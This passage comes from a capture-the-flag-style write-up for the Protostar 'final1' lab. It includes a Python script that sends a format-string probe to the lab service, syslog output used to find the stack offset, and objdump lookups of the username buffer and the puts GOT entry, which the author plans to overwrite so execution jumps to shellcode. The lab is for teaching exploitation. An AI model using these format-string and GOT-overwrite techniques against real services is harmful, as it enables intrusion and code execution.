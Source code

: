 Bingo! Then I use python script to find the location to write to.

```python
import socket

s = socket.socket()
s.connect(("192.168.56.101",2994))

data = s.recv(1024)

s.sendall("username " + "A" * (127-10) + "\x0a")

data = s.recv(1024)

login = "BBBB %46$x %47$x %48$x %49$x %50$x"
s.sendall("login " + login + "\x0a")

data = s.recv(1024)
print "%s" % data

s.close()
```

And let's see what happen in syslog.

```
root@protostar:/# tail -f /var/log/syslog | grep final1
Dec  10 06:31:18 protostar final1: Login from 127.0.0.1:51057 as [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA] with password 
[BBBB 70206874 77737361 2064726f 4242425b 34252042]
```

We find that "BBBB" is between '%49$x' and '%50$x',  because it's not aligned, let's try again with reducing an 'A' in username.

```
root@protostar:/# tail -f /var/log/syslog | grep final1
Dec  10 06:38:36 protostar final1: Login from 127.0.0.1:51057 as [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA] with password 
[BBBB 61702068 6f777373 5b206472 42424242 36342520]
```

Now we know '%49$x' hits our data. The problems next are where to put our shellcode and where to write the address of our shellcode so that it can be executed.  
  
Notice that 'username[128]' is a global variable, its address is constant, and 128-12 bytes are far enough for the shellcode I use in final0.  
  
After syslog(), puts() is called, so let's change its entry address in GOT to our shellcode's address.

```
root@protostar:/opt/protostar/bin# objdump -t final1 | grep username
0804a220 g     0 .bss   00000080              username
root@protostar:/opt/protostar/bin# objdump -R final1 | grep puts
0804a194 R_386_JUMP_SLOT   puts
```
